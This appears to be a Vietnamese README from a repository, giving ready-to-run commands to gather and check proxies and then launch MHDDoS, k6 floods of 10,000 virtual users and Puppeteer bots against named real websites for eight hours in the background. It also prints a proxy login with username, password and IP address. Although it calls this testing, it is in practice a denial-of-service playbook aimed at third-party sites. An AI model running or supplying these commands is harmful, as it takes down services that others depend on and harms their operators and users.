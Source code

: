 # 🛡️ Hướng dẫn sử dụng Proxy và công cụ kiểm thử MHDDoS / K6 / Puppeteer

## 1️⃣ Thay đổi định dạng chuỗi Proxy

### ➕ Thêm `http://` vào đầu mỗi dòng:

```bash
sed -i 's|^|http://|' proxies.txt`
```

### 🔄 Chuyển định dạng để kiểm tra proxy còn sống:

```bash
awk -F: '{print "http://" $3 ":" $4 "@" $1 ":" $2}' proxies_input.txt > proxies_tmp.txt
mv proxies_tmp.txt proxies_input.txt`
```

### 🧩 Chuyển sang định dạng phù hợp với **MHDDoS**:

```bash
awk '
/@/ {
match($0, /http:\/\/([^:]+):([^@]+)@([^:]+):([0-9]+)/, arr)
if (arr[1] && arr[2] && arr[3] && arr[4]) {
print "http://" arr[3] ":" arr[4] ":" arr[1] ":" arr[2]
} else {
print "# Lỗi: " $0
}
}
/@/! {
print $0
}
' proxies.txt > proxies_fixed.txt
mv proxies_fixed.txt proxies.txt
```

---

## 2️⃣ Kiểm tra Proxy còn sống

```bash
parallel -j 100 '
  if curl --proxy {} --max-time 5 -s https://httpbin.org/ip > /dev/null; then
    echo {} >> proxies_live.txt
    echo "✅ {}"
  else
    echo {} >> proxies_dead.txt
    echo "❌ {}"
  fi
' :::: proxies_input.txt

## 3️⃣ Lọc trùng các Proxy sống

```bash
sort -u proxies_live.txt -o proxies_live.txt
```

---

## 4️⃣ Cập nhật danh sách Proxy sống

```bash
mv proxies_live.txt proxies.txt
```

---

## 5️⃣ 🧨 MHDDoS

📁 Chuyển thư mục:
```bash
cd MHDDoS
```
### ▶️ Ví dụ lệnh chạy:

```bash
nohup python3 start.py CFB https://skyxtoken.io/ 1 1000 proxies.txt 120 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://sh1bet.live/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://solnic.io/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
```

---

## 6️⃣ 🧪 K6

📁 Chuyển thư mục:

```bash
cd bot`
```
> ⚙️ Cấu hình trong file `run.sh`, đảm bảo file `proxies_k6.txt` đúng định dạng

### ▶️ Ví dụ test đơn:

```bash
export HTTP_PROXY="http://ugbp7v4r:uGbP7v4R@103.151.122.165:20211"

k6 run test.js
-e BASE_URL="https://sh1bet.live/"\
-e VUS=10000\
-e DURATION="10m"
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
./run_k6.sh
```

---

## 7️⃣ 🕵️ Puppeteer

📁 Chuyển thư mục:

```bash
cd bot
```

> ⚙️ Kiểm tra file `proxies.txt`

### ▶️ Ví dụ test đơn:

```bash
node main.js 10 https://sh1bet.live 30
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
nohup node main.js 100 https://sh1bet.live 28800 >/dev/null 2>&1 &
```

---

## 🛑 Dừng khẩn cấp

| Công cụ   | Lệnh dừng           |
| --------- | ------------------- |
| MHDDoS    | `pkill -f start.py` |
| K6        | `pkill -f k6`       |
| Puppeteer | `pkill node`        |
